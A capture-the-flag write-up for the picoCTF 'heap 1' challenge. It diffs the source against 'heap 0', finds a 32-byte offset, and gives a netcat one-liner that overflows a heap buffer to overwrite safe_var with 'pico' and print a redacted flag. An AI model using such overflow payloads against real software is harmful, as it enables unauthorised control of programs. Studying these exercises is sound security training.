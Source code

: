# heap 1 #
 
## Overview ##

100 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap`

## Description ##

Can you control your overflow?

## Approach ##

Binary and source are provided for this challenge.

Inspecting the `chall.c` source file, it looks to be a modified version of **[heap 0](../heap%200/heap%200.md)** challenge, so running a diff between the two to determine the changes :

    diff ../heap-0/chall.c chall.c
    16c16
    <     if (strcmp(safe_var, "bico") != 0) {
    ---
    >     if (!strcmp(safe_var, "pico")) {
    47c47
    <     printf("\nWelcome to heap0!\n");
    ---
    >     printf("\nWelcome to heap1!\n");
    88,99c88
    <   int rval = scanf("%d", &choice);
    <   if (rval == EOF){
    <       exit(0);
    <   }
    <         if (rval != 1) {
    <             //printf("Invalid input. Please enter a valid choice.\n");
    <             //fflush(stdout);
    <             // Clear input buffer
    <             //while (getchar() != '\n');
    <             //continue;
    <       exit(0);
    <         }
    ---
    >   if (scanf("%d", &choice) != 1) exit(0);

So now our challenge is to cause an overflow but construct the overflow such that the `safe_var` rewritten with known data, in this case it must be equal to `"pico"` as seen in the updated conditional statement above.

## Solution ##

A minor modification to our existing attack for **[heap 0](../heap%200/heap%200.md)** to increase the overflow to add the required `safe_var` contents in the correct position (offset is again 32-bytes as obtained from the addresses displayed by the challenge executable), such that the input payload;
- Select menu item 2 "Write to Buffer" = `"2\n"`
- Overflows the `input_data` buffer to reach the start of the `safe_var` buffer by outputting 32 `A` characters = `"A"*32`
- Continue the overflow to write `pico` into `safe_var` buffer, completing the input string to be written = `"pico\n"`
- Select menu item 4 "Print Flag" = `"4\n"`

    $ echo $(python3 -c 'print("2\n" + "A"*32 + "pico\n4\n")') | nc tethys.picoctf.net 64934

    Welcome to heap1!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x556535d462b0  ->   pico
    +-------------+----------------+
    [*]   0x556535d462d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: Data for buffer: 
    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 
    YOU WIN
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.